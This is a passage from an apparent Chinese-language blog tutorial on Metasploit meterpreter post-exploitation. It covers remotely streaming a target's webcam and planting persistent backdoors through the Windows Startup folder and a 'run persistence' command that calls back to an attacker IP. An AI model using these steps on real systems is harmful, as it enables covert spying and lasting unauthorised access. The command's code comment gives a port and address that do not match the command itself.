 

我们再来开启视频试试，开启摄像头拍摄视频。他会弹出一个网页，可以查看到摄像头那端的实时操作，相当于直播



![](https://img-blog.csdnimg.cn/2018112912074844.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 使用扩展库



输入 load 或者 run  然后双击table



![](https://img-blog.csdnimg.cn/20181129120902920.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 生成持续性后门



因为 meterpreter 是基于内存DLL建立的连接，所以，只要目标主机关机，我们的连接就会断。总不可能我们每次想连接的时候，每次都去攻击，然后再利用 meterpreter 建立连接。所以，我们得在目标主机系统内留下一个持续性的后门，只要目标主机开机了，我们就可以连接到该主机。



建立持续性后门有两种方法，一种是通过**启动项启动(persistence) ，**一种是通过 **服务启动(metsvc)**



**启动项启动**



启动项启动的话，我们先生成一个后门工具，传送门——> [用MSF生成一个后门木马](https://blog.csdn.net/qq_36119192/article/details/83869141 "用MSF生成一个后门木马")



然后放到windows的启动目录中：



```
C:\Users\$username$\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```




这样这个后门每次开机就都能启动了，然后我们只要相连就监听相应的端口就行了。



**服务启动**



通过服务启动，我们可以运行命令 



```
run persistence -X -i 5 -p 8888 -r 192.168.10.27  #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀       
#然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
```
